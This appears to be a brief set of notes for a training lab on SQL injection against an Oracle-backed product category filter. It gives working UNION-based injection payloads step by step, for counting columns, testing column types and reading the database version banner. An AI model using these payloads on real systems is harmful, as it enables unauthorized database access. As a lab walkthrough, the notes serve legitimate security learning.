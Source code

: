 lab 07 - SQL injection attack, querying the database type and version on ORacle 

SQL Injection - Product category filter

End Goal - display the database version string

Analysis:

(1) Determin no of colounms 
' order by 3-- -> internal server error

3-1 = 2

(2) Determine the data types of the columns 

' UNION SELECT 'a', 'a' from DUAL--

(3) output the database version

' UNION SELECT banner, NULL from v$version-- 
